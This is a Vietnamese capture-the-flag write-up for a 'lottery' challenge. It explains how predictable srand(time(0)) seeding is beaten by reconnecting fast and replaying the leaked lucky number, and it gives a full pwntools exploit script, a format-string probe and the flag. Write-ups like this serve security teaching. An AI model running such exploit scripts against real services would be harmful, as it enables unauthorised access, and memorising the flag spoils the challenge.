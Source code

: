 **SOLUTION**

hmmm....Bài này lúc đầu mình cũng thấy khá là ngô khoai.

Đầu tiên nó sẽ yêu cầu mình nhập tên với độ dài bằng 10 thông qua hàm:
```sh
fgets(name,10,stdin);
```

Sau đó nó sẽ in ra Hello + name vừa nhập và yêu cầu người chơi nhập 1 số bất kỳ, nếu trùng với số được cộng từ 2 số random của hệ thống thì mình sẽ lấy được flag.

Vấn đề này thì đơn giản hơn nhiều khi chương trình có sử dụng hàm `srand(0)` nhưng ở đây chương trình này sử dụng `srand(time(0))` để gọi 1 số random nên sẽ hơi khó 1 tí.

Vì mình không thể đoán chính xác số ấy được, nên mình sẽ cần leak số ấy ra thôi. Nhưng tiếc là mình hem leak được :((

Vậy thôi,.... mình chơi ăn gian 1 tí. Mình sẽ nhập đại 1 giá trị, sau đó mình bắt giá trị của server in ra sau câu `The lucky number is` để làm giá trị cho lần kết nối sau. Nhưng do mình làm tự động bằng file nên thời gian ko chênh lệch nhiều nên srand(time(0)) của 2 lần sẽ ko thay đổi. Mình nghĩ như vậy. Và xem nào, nó dùng được này....

Đây là file exploit.py của mình

```sh
from pwn import *
temp1 = "1111111"
#s = remote("128.199.234.122",4200)
s = process("./lottery")
s.sendline("%7$x")
s.recvuntil("Hello")
temp = s.recvline()
log.info(">> {}".format(temp))
s.sendline(temp1)
s.recvuntil("The lucky number is")
temp1 = s.recvuntil("\n")
log.info("Value >> {}".format(temp1))
#s =remote("128.199.234.122",4200)
s = process("./lottery")
s.sendline("Hazir")
s.sendline(temp1)
s.interactive()
s.close()
```

Run và hồi hộp chờ thôi nèo... Tadaaaaa 
** FLAG **

`efiensctf{ULTRA_MEGA_SUPER_HUGE_VIETLOT_JACKPOT}`